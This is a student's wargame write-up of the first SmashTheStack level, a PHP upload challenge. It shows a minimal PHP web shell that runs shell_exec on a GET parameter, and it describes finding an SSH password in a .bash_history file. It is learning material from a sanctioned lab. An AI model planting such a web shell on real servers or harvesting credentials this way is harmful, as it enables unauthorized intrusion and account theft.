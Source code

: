 # Week 7 - SmashTheStack (Level 1...) 

Sasha Thomas

May 11th 2020

## Introduction and Materials

This week I started to learn a little about C and buffer overflows using SmashTheStack.

I haven't done much work being this close to the binary, so many of these concepts are super new to me. I'm still wrapping my head around stacks, heaps, buffers, and a bunch of other things, so I was only able to get through the first level (which wasn't even related to exploits, just a PHP challenge). 

## Steps to Reproduce

1. The first challenge is accessed through the web. You are given a very simple webpage which allows you to upload a file:

   ![start](C:\Users\turtl\Documents\week6\images\start.png)

   I started out by looking at the source code and network tab for any hints. It was uninteresting apart from a hidden input which defines the max file size you can upload, which was 100kb. 

2. Just to see what would happen, I uploaded a picture of a cat to see if I could find it in `/uploads` as the page says. While I couldn't access the directory, I was able to access individual files:

   ![uploadedcatto](C:\Users\turtl\Documents\week6\images\uploadedcatto.PNG)

3. Since this was the first challenge, I assumed that it was likely there were no mitigations for the types of files I could upload. I also noticed that when I uploaded a file, I was taken to `/send_clearence.php`, so my next idea was to upload a PHP script and try to interact with the machine running the site. 

4. Crafting this PHP file took me the longest, especially because my knowledge of PHP is limited. My first attempt was solely to see if I could get the page to work with what I gave it:

   ```php
   <?php
       echo "Hello World!"
   ?>
   ```

   Uploading this did exactly what I wanted it to:

   ![helloworld](C:\Users\turtl\Documents\week6\images\helloworld.PNG)

5. With this information, it was mostly trial and error. Researching led me to the `shell_exec` command, and this super basic PHP let me pass in commands through the browser:

   ```php
   <?php
       $cmd = $_GET['cmd'];
       echo shell_exec($cmd);
   ?>
   ```

   ![phpscriptworks](C:\Users\turtl\Documents\week6\images\phpscriptworks.PNG)

6. The first page instructs you to poke around the user directories when you "gain clearance." The only user directory I had access to was level1's, which initially I thought was a dead end:

   ![userdirectory](C:\Users\turtl\Documents\week6\images\userdirectory.PNG)

   Horrible formatting which could be fixed by a couple lines of code aside, I decided to check `.bash_history`, mostly because the initial page told me to look around here. I found an interesting string that looked like it could represent a password:

   ![plaintext](C:\Users\turtl\Documents\week6\images\plaintext.PNG)

   And lucky enough, this string is the SSH password for level2, which I'm still working on...

## Conclusion

Having access to the actual buffer overflow challenge, I've been working through it on my own. I think I should be able to get it within this week. I'm sure the solution is relatively simple, but I'm more concerned with understanding the "why" at this point, so hopefully part II of this will come next week. 



